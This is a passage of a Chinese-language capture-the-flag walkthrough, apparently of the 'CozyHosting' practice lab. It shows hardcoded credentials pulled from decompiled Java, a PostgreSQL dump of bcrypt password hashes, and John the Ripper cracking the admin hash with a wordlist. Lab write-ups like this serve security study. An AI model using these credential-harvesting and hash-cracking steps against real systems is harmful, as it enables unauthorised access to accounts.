 可從`scheduled/FakeUser.class`中找到`kanderson`的帳密
![image](https://hackmd.io/_uploads/SJsOpeUU6.png)
```
package BOOT-INF.classes.htb.cloudhosting.scheduled;

import java.io.IOException;
import java.util.concurrent.TimeUnit;
import org.springframework.scheduling.annotation.Scheduled;
import org.springframework.stereotype.Component;

@Component
public class FakeUser {
  @Scheduled(timeUnit = TimeUnit.MINUTES, fixedDelay = 5L)
  public void login() throws IOException {
    System.out.println("Logging in user ...");
    Runtime.getRuntime().exec(new String[] { "curl", "localhost:8080/login", "--request", "POST", "--header", "Content-Type: application/x-www-form-urlencoded", "--data-raw", "username=kanderson&password=MRdEQuv6~6P9", "-v" });
  }
}
```


使用psql連接資料庫
```
$ psql -h 127.0.0.1 -U postgres
Password for user postgres: Vg&nvzAQ7XxR


\c cozyhosting
You are now connected to database "cozyhosting" as user "postgres".
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

select * from users
;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

使用john the ripper 爆破hash取得密碼明文:`manchesterunited`
```
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash
                                                                                                                                       
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --rules hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:35 DONE (2023-12-12 10:57) 0.02796g/s 78.52p/s 78.52c/s 78.52C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```